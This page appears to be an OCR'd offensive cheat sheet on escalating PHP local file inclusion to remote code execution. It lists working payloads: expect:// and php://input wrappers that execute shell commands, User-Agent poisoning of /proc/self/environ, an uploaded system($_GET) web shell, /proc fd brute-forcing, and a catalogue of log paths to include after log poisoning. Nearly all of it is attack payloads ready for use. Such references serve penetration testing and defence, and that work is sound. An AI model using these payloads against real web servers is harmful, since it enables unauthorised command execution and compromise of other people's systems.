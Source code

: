 ### Wrapper expect://
```txt
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### Wrapper input://
Specify your payload in the POST parameters, this can be done with a simple curl command.
```txt
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

### LFI to RCE via /proc/*/fd
1.  Upload a lot of shells (for example : 100)
2.  Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

### LFI to RCE via /proc/self/environ
Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file
```txt
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

### LFI to RCE via upload
If you can upload a file, just inject the shell payload in it (e.g : <?php system($_GET['c']); ?> ).
```txt
http://example.com/index.php?page=path/to/uploaded/file.png
```
In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf

### LFI to RCE via controlled log file
Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.
```txt
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```
